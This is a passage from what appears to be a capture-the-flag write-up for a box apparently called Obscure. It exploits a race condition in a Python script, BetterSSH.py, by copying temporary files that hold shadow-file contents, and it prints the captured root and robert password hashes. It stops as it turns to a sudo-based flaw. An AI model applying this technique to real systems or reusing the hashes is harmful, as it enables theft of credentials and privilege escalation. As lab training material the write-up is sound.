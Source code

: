 Here we have a race condition. if we look at this part of the script

```py
with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
```

It writes to a file in /tmp/SSH, we just have to interfere and read this file bevore it gets removed, wich happems here:

```py
if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
```

The filename for this passwordfile in /tmp/SSH is complete random tho as you know from this line

```py
path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
```

But what we can do is, that we go to /tmp/SSH and execute:

```
watch -n .5 cp * /dev/shm
```

And now this is going to copy everything in /tmp/SSH/ every 0.5 seconds to /dev/shm, if we execute the BetterSSH now while this is running we are going to find a randomly named file with the following content in /dev/shm
```
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7


robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
```

So we could now go and crack this hash, or we use another mistake that was made in this BetterSSH.py, which we can see here:

```py
if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
```
